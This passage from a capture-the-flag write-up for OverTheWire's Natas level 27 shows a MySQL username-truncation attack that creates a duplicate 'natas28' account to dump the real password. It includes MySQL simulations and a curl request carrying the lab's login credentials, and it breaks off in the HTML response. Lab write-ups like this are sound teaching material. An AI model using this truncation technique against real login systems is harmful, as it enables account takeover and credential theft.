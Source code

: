 Our `INSERT` statement was trying to overflow the maximum length of 10 characters, and MySQL has truncated the provided username.

### Proof of Concept

Now that we have made all these tests, let's make a proof of concept. Let's create a first user with a secret password. This will be the password we need to find.

~~~
mysql> truncate table users;
Query OK, 0 rows affected (0.02 sec)

mysql> insert into users(username, password) values('natas28', 's3cR37');
Query OK, 1 row affected (0.00 sec)
~~~

Now, let's simulate the actions we will do to solve the challenge. We'll first create another `natas28` username (using overflow) and a password that we know. This is what will be done by the `createUser()` function.

~~~
mysql> insert into users(username, password) values('natas28   Z', 'natas28');
Query OK, 1 row affected, 1 warning (0.00 sec)
~~~

Now, we'll log in. A call to `checkCredentials()` will be made, let's simulate it:

~~~
mysql> select username from users where username='natas28' and password='natas28';
+------------+
| username   |
+------------+
| natas28    |
+------------+
1 row in set (0.00 sec)
~~~

That worked, 1 entry has been returned. The PHP code will then call `dumpData()` and will list all `natas28` users:

~~~
mysql> select * from users where username='natas28';
+------------+----------+
| username   | password |
+------------+----------+
| natas28    | s3cR37   |
| natas28    | natas28  |
+------------+----------+
2 rows in set (0.00 sec)
~~~

## Exploit

We can confirm that the `natas28` user exists in the table (but we don't know the password):
```php
$ curl -s -d "username=natas28&password=natas28" -X POST --user natas27:55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ http://natas27.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
```